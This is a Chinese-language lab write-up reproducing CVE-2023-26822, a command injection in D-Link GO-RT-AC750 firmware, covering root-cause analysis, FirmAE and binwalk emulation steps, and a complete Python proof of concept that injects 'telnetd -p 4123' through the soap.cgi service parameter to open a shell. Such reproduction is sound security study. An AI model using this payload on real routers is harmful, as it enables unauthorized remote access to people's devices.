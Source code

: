 # 复现CVE-2023-26822命令注入漏洞

## 实验目标

以D-Link Go-RT-AC750固件为例，复现CVE-2023-26822命令注入漏洞，练习使用binwalk进行固件提取，使用FirmAE模拟固件

## 漏洞介绍及原理

1. CVE-2023-26822介绍

   D-Link GO-RT-AC750是D-Link公司的一款无线双频简易路由器。D-Link Go-RT-AC750 revA_v101b03版本存在安全漏洞，该漏洞源于通过soapcgi.main的service参数发现包含命令注入漏洞。

   ![image](https://github.com/zhangyutong-sjtu/ctf-web/assets/75147791/6c826c8e-0b4a-41df-bcaf-8a814748429b)


2. 漏洞原理

   根据漏洞披露的信息可知漏洞点和 service 参数以及 soapcgi_main 有关，在文件系统中查找soapcgi_main并定位到所在文件cgibin，将其拿到IDA中逆向分析，通过函数名查找，定位到soapcgi_main函数，调用该函数的代码如下：

   ![image](https://github.com/zhangyutong-sjtu/ctf-web/assets/75147791/10fb1be4-46b2-4bbe-9797-fd0f39031a29)


   soapcgi_main中关键代码如下：

   ![image](https://github.com/zhangyutong-sjtu/ctf-web/assets/75147791/f8f2d30e-31ca-41b7-84af-fb7d7f6ce7df)


   以上代码在获取与请求相关的环境变量，可获得的信息有：

   - REQUEST_METHOD: POST
   - CONTEXT_TYPE: text/xml
   - REQUEST_URI：含`?service=`
   - HTTP_SOAPACTION：含有“”，且“”中含有`#`

   与漏洞相关的代码部分：

   ![image](https://github.com/zhangyutong-sjtu/ctf-web/assets/75147791/dac2e480-3dea-4a98-884e-f1bee2e7759c)


   综上分析可知，漏洞出现的原因是POST 的URI中`?service=`后面的内容可由输入控制，全程没有对该处输入进行检查，直接sprintf后由system函数执行。

## 实验步骤

1. FirmAE 工具安装

   （1）首先拉取FirmAE 工具仓库，运行命令：

   `git clone --recursive https://github.com/pr0v3rbs/FirmAE`

   得到

   ![image](https://github.com/zhangyutong-sjtu/ctf-web/assets/75147791/0df2334d-1143-41fd-a6ef-b9f5903d4247)

   ​	（2）运行下载脚本

   运行以下代码，下载需要的资源

   ```
   cd FirmAE/
   ./download.sh
   ```

   ![image](https://github.com/zhangyutong-sjtu/ctf-web/assets/75147791/eb820839-b498-463a-88db-92009f2015ee)


   ​	（3）在上一条命令执行结束之后（输出Done !），运行./install.sh进行安装

   ![image](https://github.com/zhangyutong-sjtu/ctf-web/assets/75147791/fc4121c0-4416-4ff8-b079-8ffda1f5b6e2)


   执行结束：

   ![image](https://github.com/zhangyutong-sjtu/ctf-web/assets/75147791/c476e4b7-7d20-463f-8656-53922bb06d93)


2. 下载固件

   本文模拟的是设备型号为Go-RT-AC750，固件版本：revA_v101b03

   （1）文档地址：https://eu.dlink.com/uk/en/products/go-rt-ac750-wireless-ac750-dual-band-easy-router

   下载成功，得到GORTAC750_A1_FW_v101b03.bin固件文件


3. FirmAE工具初始化

   在FirmAE工具目录下执行./init.sh进行初始化

   ![image](https://github.com/zhangyutong-sjtu/ctf-web/assets/75147791/c62cca7d-b158-462d-a6b6-50a4dca99455)


4. 安装binwalk

   使用FirmAE工具目录下的binwalk安装程序进行安装：

   ```
   cd binwalk-2.3.4/
   
   python3 setup.py install
   ```

   ![image](https://github.com/zhangyutong-sjtu/ctf-web/assets/75147791/0cee9828-2937-4781-805c-22320d375295)


5. 模拟运行固件

   执行如下命令对固件进行解压

   ```
   binwalk -Me /home/zhangyutong/GORTAC750_A1_FW_v101b03.bin 
   ```

   ![image](https://github.com/zhangyutong-sjtu/ctf-web/assets/75147791/30b50cbc-f423-48c9-b537-586ab323d7e4)


   执行如下命令来模拟运行固件

   ```
   cd ..
   sudo ./run.sh -r GORTAC750 /home/yutong/GORTAC750_A1_FW_v101b03.bin
   ```

   ![image](https://github.com/zhangyutong-sjtu/ctf-web/assets/75147791/0e4f32d5-8943-4342-ae4c-7b8ab54849c4)


6. 执行脚本文件获取shell

   ```
   python3 poc.py
   ```

   成功拿到shell

   ![image](https://github.com/zhangyutong-sjtu/ctf-web/assets/75147791/b1b49deb-b89b-498a-8232-f065ef055d9b)


   poc.py文件如下所示：

   ```python
   from socket import *
   from os import *
   from time import *
   
   request = b"POST /soap.cgi?service=&&telnetd -p 4123& HTTP/1.1\r\n"
   request += b"Host: localhost:49152\r\n"
   request += b"Content-Type: text/xml\r\n"
   request += b"Content-Length: 88\r\n"
   request += b"SOAPAction: a#b\r\n\r\n"
   s = socket(AF_INET, SOCK_STREAM)
   s.connect((gethostbyname("192.168.0.1"), 49152))
   s.send(request)
   sleep(10)
   system('telnet 192.168.0.1 4123')
   ```

   

​	
